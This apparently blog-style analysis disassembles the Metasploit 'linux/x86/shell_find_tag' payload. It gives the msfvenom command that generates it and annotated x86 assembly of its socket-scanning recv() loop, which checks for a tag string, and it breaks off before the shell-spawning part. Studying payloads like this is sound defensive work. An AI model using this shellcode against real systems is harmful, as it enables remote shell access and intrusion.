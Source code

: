 In this post I'll analyze `linux/x86/shell_find_tag`.

### NDISASM

To generate the payload:

```bash
msfvenom -p linux/x86/shell_find_tag -o shellcode.bin
```

To analyze it with `ndisasm`:

```bash
ndisasm shellcode.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; clear EBX and push 0x00000000 to the stack
00000000  31DB              xor ebx,ebx
00000002  53                push ebx

                            ; store pointer to 0x00000000 into ESI
00000003  89E6              mov esi,esp

                            ; 4th argument of recv(): flags
                            ; push to the stack the value 0x00000040 (MSG_DONTWAIT)
00000005  6A40              push byte +0x40

                            ; 3rd argument of recv(): len, i.e. the number of bytes to
                            ;   read from the socket
                            ; push to the stack the value: 0x00000a00 (2560 bytes)
00000007  B70A              mov bh,0xa
00000009  53                push ebx

                            ; 2nd argument of recv(): buffer that will store the data
                            ; push to the stack the value: pointer to 0x00000000
0000000A  56                push esi

                            ; 1st argument of recv(): file descriptor of the socket
                            ; push to the stack the value: 0x00000a00
0000000B  53                push ebx

                            ; 3rd argument of socketcall()
                            ; store into ECX the pointer to its arguments
0000000C  89E1              mov ecx,esp

                            ; exchanges BH with BL, so 0x0a00 -> 0x000a
                            ; EBX = 0xa (SYS_RECV)
0000000E  86FB              xchg bh,bl

                            ; 0x0a00 -> 0x0a01
00000010  66FF01            inc word [ecx]

                            ; call socketcall() syscall, which in turn calls recv()
00000013  6A66              push byte +0x66
00000015  58                pop eax
00000016  CD80              int 0x80

                            ; pointer to the buffer storing data received with recv()
                            ; check if the first bytes are the string "fjHh
00000018  813E666A4868      cmp dword [esi],0x68486a66
0000001E  75F0              jnz 0x10
```
